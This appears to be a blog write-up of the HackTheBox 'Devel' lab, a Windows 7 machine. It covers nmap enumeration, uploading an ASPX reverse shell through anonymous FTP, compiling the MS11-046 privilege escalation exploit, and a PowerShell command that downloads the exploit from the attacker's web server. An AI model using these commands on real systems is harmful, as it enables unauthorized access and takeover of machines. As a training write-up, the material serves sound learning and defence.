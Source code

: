 ```yaml
---
weight: 1
title: "HackTheBox - Devel Writeup"
date: 2021-08-27
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["aspx-reverse-shell", "CVE-2011-1249", "MS11-046"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/1" name="ch4p" picture="https://www.hackthebox.com/storage/avatars/08c255a334e10b3033ab7263e6b32422.png" >}}

<!--more-->

## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![nmap initial scan](1000.png "nmap initial scan")

- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![nmap allports scan](all_ports.png "nmap allports scan")

### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![ftp anonymous](ftp.png "ftp anonymous")

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![default IIS webpage](welcome.png "default IIS webpage")

- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![shell as iis apppool\web](got_shell.png "shell as iis apppool\web")

- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![systeminfo](systeminfo.png "systeminfo")

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046

![found an exploit](exploit-db.png "found an exploit")

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit
{{< admonition tip >}}
If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
Just run this command to install  it `apt install mingw-w64` 
{{< /admonition >}}

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![become nt authority\system](exe.png "become nt authority\system")

- YES! I'm become `SYSTEM`

## User Flag

![user flag](user.png "user flag")

## Administrator Flag

![root flag](admin.png "root flag")

## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)